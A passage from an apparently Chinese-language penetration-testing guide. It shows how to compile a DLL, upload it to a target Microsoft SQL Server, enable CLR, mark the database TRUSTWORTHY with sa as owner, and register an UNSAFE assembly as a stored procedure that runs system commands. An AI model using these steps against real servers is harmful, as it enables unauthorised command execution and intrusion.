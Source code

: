    编译

   ```
   C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs //主意.net版本
   ```

   得到的DLL上传到目标，设置dll文件权限，否则mssql可能因为文件权限问题导致读取dll失败

   开启CLR

   ```
   sp_configure 'show advanced options',1
   RECONFIGURE
   GO
   -- Enable clr on the server
   sp_configure 'clr enabled',1
   RECONFIGURE
   GO
   
   ```

   遇到权限问题，需要设置数据库拥有者为sa，这个方法不能使用master数据库来执行查询语句

   ```
   alter database [数据库名] set TRUSTWORTHY on
   EXEC sp_changedbowner 'sa'
   ```

   接着执行

   ```
   -- Import the assembly
   CREATE ASSEMBLY my_assembly
   FROM 'c:\temp\cmd_exec.dll'
   WITH PERMISSION_SET = UNSAFE;
   Go
   -- Link the assembly to a stored procedure
   CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
   GO
   ```

   接下来就可以执行命令了

   ![](./media/clr执行命令.png)
